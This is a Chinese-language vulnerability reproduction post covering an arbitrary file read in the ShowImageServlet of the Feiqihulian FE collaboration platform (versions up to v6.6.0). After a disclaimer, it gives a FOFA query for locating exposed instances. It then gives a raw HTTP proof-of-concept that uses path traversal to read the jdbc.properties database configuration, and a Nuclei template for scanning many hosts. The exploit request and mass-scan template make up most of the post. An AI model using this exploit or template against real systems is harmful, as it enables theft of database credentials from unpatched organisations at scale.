 # 原创
：  漏洞复现--飞企互联FE业务协作平台ShowImageServlet任意文件读取

# 漏洞复现--飞企互联FE业务协作平台ShowImageServlet任意文件读取

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

FE办公协作平台是基于业务应用模型驱动开发技术与工作流的协作技术、采用了面向业务部件技术，实现应用开发、运行、管理、维护的信息管理平台。该产品ShowImageServlet 文件存在任意文件读取。

### 二：漏洞影响版本

version &lt;=v6.6.0

### 三：网络空间测绘查询

fofa:<br/> `app="飞企互联-FE企业运营管理平台"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/be347c13d890ac78346e87c7eca967f7.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/dbc10414a3ee54a39b94ff76c5ad2420.jpeg"/><br/> POC:

```
GET /servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&amp;print HTTP/1.1
Host: x.x.x.x
Cookie: yourcookie
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

```

### 五：批量检测

```
id: Feiqihulian-FE-ShowImageServlet-Arbitrary-file-reads
info:
  name: Feiqihulian-FE-ShowImageServlet-Arbitrary-file-reads
  author: 芝士土拨鼠
  severity: high
  description: FE办公协作平台是基于业务应用模型驱动开发技术与工作流的协作技术、采用了面向业务部件技术，实现应用开发、运行、管理、维护的信息管理平台。该产品ShowImageServlet 文件存在任意文件读取

requests:
  - raw:
      - |+
        GET /servlet/ShowImageServlet?imagePath=../web/fe.war/WEB-INF/classes/jdbc.properties&amp;print HTTP/1.1
        Host: {{Hostname}}
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Connection: close


    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - sql
      - type: status
        status:
          - 200

```
